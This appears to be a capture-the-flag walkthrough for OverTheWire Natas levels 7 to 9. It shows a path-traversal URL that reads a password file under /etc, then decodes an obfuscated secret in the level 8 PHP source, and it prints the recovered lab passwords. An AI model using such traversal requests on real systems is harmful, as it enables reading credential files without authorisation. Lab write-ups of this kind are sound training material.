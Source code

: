 http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8%20%E2%86%92%20..%2F..%2F..%2F..%2Fetc%2Fnatas_webpass%2Fnatas8

xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 

## Level 7 → Level 8

``` html
<div id="content">
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

[https://cyberchef.org](https://cyberchef.org)

```3d3d516343746d4d6d6c315669563362 (From Hex) -> ==QcCtmMml1ViV3b```

```==QcCtmMml1ViV3b (Reverse) -> b3ViV1lmMmtCcQ==```

```b3ViV1lmMmtCcQ== (From base64) -> oubWYf2kBq```

**Access granted. The password for natas9 is ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t** 

## Level 8 → Level 9

``` html
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

<pre>
</pre>
```
